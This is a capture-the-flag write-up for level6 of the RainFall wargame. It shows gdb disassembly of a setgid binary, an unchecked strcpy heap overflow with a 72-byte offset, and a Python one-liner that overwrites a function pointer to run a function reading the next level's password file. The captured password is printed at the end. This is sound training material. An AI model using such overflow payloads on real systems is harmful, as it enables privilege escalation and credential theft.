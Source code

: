 # level6

## Hint

When we log into the machine as `level6`, we notice a binary:

```shell-session
level6@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level7 users 5274 Mar  6  2016 level6
```

We notice that the `guid` bit is set, so the executable gets the rights of its group owners granted when it is executed, and conveniently enough the group in question is our target for the current level.

That being said, it seems we need to look into the binary in order to try to understand what input it's awaiting.

The program is crashing (Segmentation Fault) when we try to run it.

```shell-session
level6@RainFall:~$ ./level6
Segmentation fault (core dumped)
```

And if we pass an argument to it, it shows:

```shell-session
level6@RainFall:~$ ./level6 test
Nope
```

Ok let's dig a bit with gdb.

## gdb

Let's see the functions first:

```gdb
gdb-peda$ info function
All defined functions:

Non-debugging symbols:
0x080482f4  _init
0x08048340  strcpy
0x08048340  strcpy@plt
0x08048350  malloc
0x08048350  malloc@plt
0x08048360  puts
0x08048360  puts@plt
0x08048370  system
0x08048370  system@plt
0x08048380  __gmon_start__
0x08048380  __gmon_start__@plt
0x08048390  __libc_start_main
0x08048390  __libc_start_main@plt
0x080483a0  _start
0x080483d0  __do_global_dtors_aux
0x08048430  frame_dummy
0x08048454  n                                                   <-- Function `n`
0x08048468  m                                                   <-- Function `m`
0x0804847c  main                                                <-- Function `main`
0x080484e0  __libc_csu_init
0x08048550  __libc_csu_fini
0x08048552  __i686.get_pc_thunk.bx
0x08048560  __do_global_ctors_aux
0x0804858c  _fini
```

Let's disas `main`

```gdb
gdb-peda$ disas main
Dump of assembler code for function main:
   0x0804847c <+0>:	push   ebp
   0x0804847d <+1>:	mov    ebp,esp
   0x0804847f <+3>:	and    esp,0xfffffff0
   0x08048482 <+6>:	sub    esp,0x20
   0x08048485 <+9>:	mov    DWORD PTR [esp],0x40
   0x0804848c <+16>:	call   0x8048350 <malloc@plt>           <-- Function `malloc(64)`
   0x08048491 <+21>:	mov    DWORD PTR [esp+0x1c],eax
   0x08048495 <+25>:	mov    DWORD PTR [esp],0x4
   0x0804849c <+32>:	call   0x8048350 <malloc@plt>           <-- Function `malloc(4)` called for a second time
   0x080484a1 <+37>:	mov    DWORD PTR [esp+0x18],eax
   0x080484a5 <+41>:	mov    edx,0x8048468		        <-- Address of function m(), as seen in previous codeblock
   0x080484aa <+46>:	mov    eax,DWORD PTR [esp+0x18]
   0x080484ae <+50>:	mov    DWORD PTR [eax],edx
   0x080484b0 <+52>:	mov    eax,DWORD PTR [ebp+0xc]
   0x080484b3 <+55>:	add    eax,0x4
   0x080484b6 <+58>:	mov    eax,DWORD PTR [eax]
   0x080484b8 <+60>:	mov    edx,eax
   0x080484ba <+62>:	mov    eax,DWORD PTR [esp+0x1c]
   0x080484be <+66>:	mov    DWORD PTR [esp+0x4],edx          <-- argv[1]
   0x080484c2 <+70>:	mov    DWORD PTR [esp],eax              <-- buffer argument allocated by malloc(64)  
   0x080484c5 <+73>:	call   0x8048340 <strcpy@plt>           <-- Function `strcpy`
   0x080484ca <+78>:	mov    eax,DWORD PTR [esp+0x18]
   0x080484ce <+82>:	mov    eax,DWORD PTR [eax]
   0x080484d0 <+84>:	call   eax                              <-- Calling a function contained in eax
   0x080484d2 <+86>:	leave
   0x080484d3 <+87>:	ret
End of assembler dump.
```

We can see that `m` and `n` are not called in the function `main` directly.

Let's disas `m`

```gdb
gdb-peda$ disas m
Dump of assembler code for function m:
   0x08048468 <+0>:	push   ebp
   0x08048469 <+1>:	mov    ebp,esp
   0x0804846b <+3>:	sub    esp,0x18
   0x0804846e <+6>:	mov    DWORD PTR [esp],0x80485d1            <-- "Nope"
   0x08048475 <+13>:	call   0x8048360 <puts@plt>             <-- Function `puts`
   0x0804847a <+18>:	leave
   0x0804847b <+19>:	ret
End of assembler dump.
```

And `n`

```gdb
gdb-peda$ disas n
Dump of assembler code for function n:
   0x08048454 <+0>:	push   ebp
   0x08048455 <+1>:	mov    ebp,esp
   0x08048457 <+3>:	sub    esp,0x18
   0x0804845a <+6>:	mov    DWORD PTR [esp],0x80485b0
   0x08048461 <+13>:	call   0x8048370 <system@plt>           <-- Function `system` with argument `/bin/cat /home/user/level7/.pass`
   0x08048466 <+18>:	leave
   0x08048467 <+19>:	ret
End of assembler dump.
```

Ok so we have our system() call here.

```gdb
gdb-peda$ x/s 0x80485b0
0x80485b0:	 "/bin/cat /home/user/level7/.pass"
```

Which runs the command to get the pass to level7.

## Vulnerability

It's quite obvious when ready the man for `strcpy` that there is a blatant vulnerability with using it: the fact that it does not check for the size of the buffer and instead looks for a `\0` character in order to stop the copy.

This allows us to inject a generated pattern from our favourite [website](https://wiremask.eu/tools/buffer-overflow-pattern-generator/?) in order to find the size of the buffer and continue with the exploit.

By feeding the following pattern and checking the address at which the program crashed, the generatof can deduce the size of the buffer:

```gdb
Invalid $PC address: 0x41346341
[------------------------------------stack-------------------------------------]
0000| 0xbffffb5c --> 0x80484d2 (<main+86>:	leave)
0004| 0xbffffb60 --> 0x804a008 ("Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
0008| 0xbffffb64 --> 0xbffffd5b ("Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
0012| 0xbffffb68 --> 0xb7fd0ff4 --> 0x1a4d7c
0016| 0xbffffb6c --> 0xb7e5ee55 (<__cxa_atexit+53>:	add    esp,0x18)
0020| 0xbffffb70 --> 0xb7fed280 (push   ebp)
0024| 0xbffffb74 --> 0x0
0028| 0xbffffb78 --> 0x804a050 ("Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41346341 in ?? ()
```

![](Ressources/pattern_gen.png)

We now have the size of the buffer: `72` !

All we have left to do, is overwrite the address of `m()` with the address of `n()` in the function pointer called at the end of the main function.

Just as a refresher, the functions' addresses:

```gdb
[...]
0x08048454  n                          <-- Function `n` address
0x08048468  m                          <-- Function `m` address
0x0804847c  main                       <-- Function `main` address
[...]
```

As always, we should keep in mind the endianess of the machine and write the address of `n()` in reverse so stick with the execution flow of the program.

# Exploit

```shell-session
level6@RainFall:~$ ./level6 $(python -c 'print "B"*72 + "\x54\x84\x04\x08"')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
